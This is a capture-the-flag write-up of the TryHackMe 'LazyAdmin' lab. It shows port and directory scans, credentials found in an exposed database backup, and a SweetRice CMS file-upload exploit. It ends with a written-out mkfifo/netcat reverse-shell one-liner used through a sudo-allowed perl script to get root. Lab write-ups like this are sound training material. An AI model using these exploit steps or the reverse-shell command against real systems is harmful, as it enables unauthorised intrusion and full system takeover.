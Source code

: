 ```yaml
---
title: LazyAdmin-writeup-THM
date: 2024-01-02
categories: [room, easy]
tags: [linux]     # TAG names should always be lowercase
---
```

My writeup of the TryHackMe room "<a href="https://tryhackme.com/room/lazyadmin">LazyAdmin</a>"

The first thing that I am going to do is a nmap scan:

```bash
nmap 10.10.243.20       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-01 07:27 EST
Nmap scan report for 10.10.243.20
Host is up (0.073s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
```

From there we can see that it has:

- 22(SSH)
- 80(HTTP)

First of all I am going to explore the web page.

We got meeted by the apache2 ubuntu default page, that’s good, because now weknow that it is an ubuntu machine and it’s running Apache2.

Now I am just going to run ffuf for directory enumeration:

```bash
ffuf -u http://10.10.243.20/FUZZ -w /usr/share/wordlists/dirb/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1172ms]
.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 4189ms]
content                 [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 57ms]
server-status           [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 353 req/sec :: Duration: [0:00:38] :: Errors: 0 ::
```

As we can see we got a content page, let’s see what’s in here.

![Untitled](https://raw.githubusercontent.com/Blueaulo/LazyAdmin-writeup-THM/main/7474137c-0a7c-410b-8ed2-02a7b17020bd_Export-965f2a31-1018-4c8c-bca0-aab923e3538f/LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled.png)

That’s great, now we know that the web page is using Basic CMS.

For now I am just going to follow the tip that the default web page gave us: “If you are the webmaster,please go to Dashboard -> General -> Website setting”.

but for doing that we first need to login and access the dashboard.

I ran another directory scanner, this time inside content:

```bash
ffuf -u http://10.10.243.20/content/FUZZ -w /usr/share/wordlists/dirb/big.txt

  
      /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.243.20/content/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 1687ms]
_themes                 [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 55ms]
.htaccess               [Status: 403, Size: 277, Words: 20, Lines: 10, Duration: 2705ms]
as                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
attachment              [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 58ms]
images                  [Status: 301, Size: 321, Words: 20, Lines: 10, Duration: 57ms]
inc                     [Status: 301, Size: 318, Words: 20, Lines: 10, Duration: 57ms]
js                      [Status: 301, Size: 317, Words: 20, Lines: 10, Duration: 57ms]
:: Progress: [20469/20469] :: Job [1/1] :: 271 req/sec :: Duration: [0:00:45] :: Errors: 0 ::
```

The dashboard is located in /content/as.

But we don’t have the credentials yet. 

I went into inc, and there we can see a mysql backup:

![Untitled](https://raw.githubusercontent.com/Blueaulo/LazyAdmin-writeup-THM/main/7474137c-0a7c-410b-8ed2-02a7b17020bd_Export-965f2a31-1018-4c8c-bca0-aab923e3538f/LazyAdmin%20e500b0ab8a7b40c8a695e2a7bb58621b/Untitled%201.png)

Here we can see the hashed password and the login username.

manager:Password123

Now we can see which version is running, after searching on internet I found this script: “https://www.exploit-db.com/exploits/40716”

```bash
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+
|  _________                      __ __________.__                  |
| /   _____/_  _  __ ____   _____/  |\______   \__| ____  ____      |
| \_____  \ \/ \/ // __ \_/ __ \   __\       _/  |/ ___\/ __ \     |
| /        \     /\  ___/\  ___/|  | |    |   \  \  \__\  ___/     |
|/_______  / \/\_/  \___  >\___  >__| |____|_  /__|\___  >___  >    |
|        \/             \/     \/            \/        \/    \/     |                                                    
|    > SweetRice 1.5.1 Unrestricted File Upload                     |
|    > Script Cod3r : Ehsan Hosseini                                |
+-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-==-+

Enter The Target URL(Example : localhost.com) : 10.10.243.20/content
Enter Username : manager
Enter Password : Password123
Enter FileName (Example:.htaccess,shell.php5,index.html) : php.php
[+] Sending User&Pass...
[+] Login Succssfully...
[+] File Uploaded...
[+] URL : http://10.10.243.20/content/attachment/php.php
```

This one didn’t work so I am going to switch to another one that I have found: “https://www.exploit-db.com/exploits/40700”

It bascially tells you to go and add a file in the ads section.

after that we just navigate to the ads directory “http://10.10.243.20/content/inc/ads/” and we have our shell:

```bash
nc -lvnp 4444  

listening on [any] 4444 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 35430
Linux THM-Chal 4.15.0-70-generic #79~16.04.1-Ubuntu SMP Tue Nov 12 11:54:29 UTC 2019 i686 i686 i686 GNU/Linux                                                                                                                                                                    
 15:20:14 up 53 min,  0 users,  load average: 0.00, 0.00, 0.07                                                                                                                                                                                                                   
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

Going to the IT guy directory gives us the user flag. 

Now using sudo -l:

```bash
sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

We can see that we can use perl and backup.pl with root privileges.

```bash
cat /home/itguy/backup.pl

#!/usr/bin/perl

system("sh", "/etc/copy.sh");
```

This basically just execute the `/etc/copy.sh` file

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.18.20.116 4555 >/tmp/f
```

So I changed the cdoe with my ip and port, then executed with: sudo /usr/bin/perl /home/itguy/backup.pl and got the shell.

```bash
nc -lvnp 4555
listening on [any] 4555 ...
connect to [10.18.20.116] from (UNKNOWN) [10.10.243.20] 56612
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```